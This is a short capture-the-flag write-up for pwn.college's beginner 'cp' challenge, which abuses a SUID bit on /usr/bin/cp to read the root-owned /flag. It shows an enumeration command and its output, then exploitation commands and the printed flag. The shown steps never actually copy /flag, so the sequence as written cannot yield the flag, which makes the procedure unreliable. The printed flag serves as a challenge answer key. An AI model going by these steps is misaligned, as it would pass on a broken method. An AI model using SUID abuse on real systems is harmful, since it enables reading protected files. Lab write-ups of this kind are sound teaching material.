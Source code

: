 # Challenge Name: cp
**Category**: Program Misuse  
**Platform**: pwn.college  
**Difficulty**: Beginner  
**Date**: 2025-07-16  
**Author**: Himanshu Parate

---

## 🧠 Summary:
The challenge abuses a SUID bit set on `/usr/bin/cp`, allowing an unprivileged user to read the root-owned flag file at `/flag`.

---

## 🔍 Enumeration

```bash
ls -l /usr/bin/cp
```

Output:
```
-rwsr-xr-x 1 root root 47480 Sep  5  2019 /usr/bin/cp
```

- The `s` in `-rws` indicates it's a SUID binary.
- `cp` runs with **root privileges**.

## 🚀 Exploitation

The `cp` command in Linux is used to copy files and directories.
But, simply copying /flag to other wont make change , even the copied file will need root permission to read the flag.

We can create file along chmod o+r and then copy to it , it will work with out permission

```bash
touch myflag
chmod o+r myflag
cat myflag
```

Output:
```
pwn.college{MxkdnWZIc22k3L_zDsLN4FQA-DV.dFDOxwSM0IzMyEzW}
```
